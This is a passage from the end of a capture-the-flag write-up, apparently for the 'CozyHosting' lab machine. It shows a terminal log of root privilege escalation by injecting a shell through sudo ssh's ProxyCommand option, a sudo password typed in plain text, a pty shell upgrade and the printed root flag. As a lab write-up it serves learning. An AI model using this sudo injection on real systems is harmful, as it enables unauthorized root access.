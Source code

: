 sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x

[sudo] password for josh: manchesterunited

# id

id

uid=0(root) gid=0(root) groups=0(root)

# python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'

root@cozyhosting:/home/josh#

Success! Let's find the final flag:

root@cozyhosting:/home/josh# cd /root

cd /root

root@cozyhosting:~# ls

ls

root.txt

root@cozyhosting:~# cat root.txt

cat root.txt

148ad8c88d9154952e4957e6c0454ffc

Root flag = 148ad8c88d9154952e4957e6c0454ffc

This was a fun box. If the box was not retiring so soon, I would have spent more time on it and gotten fewer hints. Regardless I learned a lot and had a blast using BurpSuite and the `john` tool to crack the hash. Onward!
